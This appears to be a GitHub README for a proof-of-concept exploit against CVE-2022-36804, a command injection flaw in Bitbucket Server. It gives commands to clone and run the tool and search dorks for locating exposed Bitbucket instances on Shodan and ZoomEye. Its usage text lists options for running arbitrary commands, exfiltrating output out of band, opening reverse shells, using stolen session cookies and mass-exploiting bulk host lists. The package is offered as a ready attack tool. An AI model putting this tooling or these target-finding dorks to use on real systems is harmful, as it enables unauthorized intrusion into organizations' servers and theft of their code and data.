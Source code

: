 # Original Project

[https://github.com/BenHays142/CVE-2022-36804-PoC-Exploit](https://github.com/BenHays142/CVE-2022-36804-PoC-Exploit)

# CVE-2022-36804-PoC-Exploit
A somewhat reliable PoC exploit for CVE-2022-36804 (BitBucket Critical Command Injection). This attack generally requires public repos to be enabled, however session cookies are also compatible with this exploit. Note: this exploit includes automatic repo detection which is handy if you don't want to manually find open repos yourself.


## How To Install
```bash
git clone https://github.com/trhacknon/CVE-2022-36804-ReverseShell.git;
cd CVE-2022-36804-ReverseShell
python3 -m pip install -r requirements.txt
python3 main.py --server [target]
```
## dork
```
inurl:"/repos?visibility=public"
http.favicon.hash:667017222 http.title:Public
```
Scanner

1. Change the API key in shodan-query.py
2. Run shodan-query.py to grab results (You can change the query in the file)
3. Run check.py to check if BitBucket Instances are vulnerable to Critical Command Injection


## How To Use
```
usage: main.py [-h] [--server SERVER] [--project PROJECT] [--repo REPO] [--skip-auto]
               [--session SESSION] [--command CMD] [--file FILE] [--output OUTPUT]
               [--lhost LHOST] [--lport LPORT] [--threads THREADS]

Exploit BitBucket Instances (< v8.3.1) using CVE-2022-36804. Exploits automagically
without any extra parameters, but allows for custom settings as well.

options:
  -h, --help         show this help message and exit
  --server SERVER    Host to attack
  --project PROJECT  The name of the project the repository resides in
  --repo REPO        The name of the repository
  --skip-auto        Skip the automatic finding of exploitable repos
  --session SESSION  Value of 'BITBUCKETSESSIONID' cookie, useful if target repo is
                     private
  --command CMD      Command to execute if exploit is successful (Note: getting output
                     isn't reliable so OOB exfil is a must)
  --file FILE        File to scan bulk hosts
  --output OUTPUT    Output file for the session
  --lhost LHOST      Your Local Host for reverse shell
  --lport LPORT      Your Local Port for reverse shell
  --threads THREADS  Threads for mass exploitation
```

##Zoomeye Dorks
```
app:"Bitbucket" +banner:"repos?visibility=public"

app:"Bitbucket" +title:"public"

app:"Bitbucket"

iconhash:667017222
```

## References
[Atlassian Advisory](https://confluence.atlassian.com/bitbucketserver/bitbucket-server-and-data-center-advisory-2022-08-24-1155489835.html)

[Atlassian Jira Issue](https://jira.atlassian.com/browse/BSERV-13438)

[NIST CVE](https://nvd.nist.gov/vuln/detail/CVE-2022-36804)
